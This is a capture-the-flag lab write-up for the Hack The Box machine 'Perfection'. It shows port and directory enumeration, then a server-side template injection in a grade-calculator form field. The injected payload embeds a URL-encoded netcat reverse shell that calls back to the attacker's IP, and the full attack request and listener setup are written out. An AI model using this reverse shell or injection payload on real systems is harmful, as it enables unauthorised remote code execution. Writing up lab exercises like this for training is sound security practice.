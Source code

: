 ```yaml
---
description: https://app.hackthebox.com/machines/590
---
```


# Perfection

#### Service Enumeration

```bash
nmap 10.10.11.253 -T5 -A -p- -sV -sC

PORT   STATE SERVICE VERSION                                                                            
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)                       
| ssh-hostkey:                                                                                          
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)                                         
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)                                       
80/tcp open  http    nginx                                                                              
|_http-title: Weighted Grade Calculator                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Directory Enumeration

```bash
dirsearch -u http://10.10.11.253

[21:17:12] 200 -    4KB - /about 
```



Upon browsing to the HTTP service hosted on the machine, I am able to see there are more directories than first discovered by our initial dirsearch.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

Filled the form and sent the intercept to repeater.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=Math&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```



Encoded a netcat reverse shell payload via URL in Burp Suite's Decoder.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

Encoded in URL

```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```



Modified Repeater POST request

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 412
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=a%0A<%25%3dsystem("%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66");%25>&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```



Started netcat and sent the payload which returned a shell.

```bash
nc -nvlp 4444
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>NetCat Listener</p></figcaption></figure>

```bash
ls -las
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```bash
cat user.txt
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

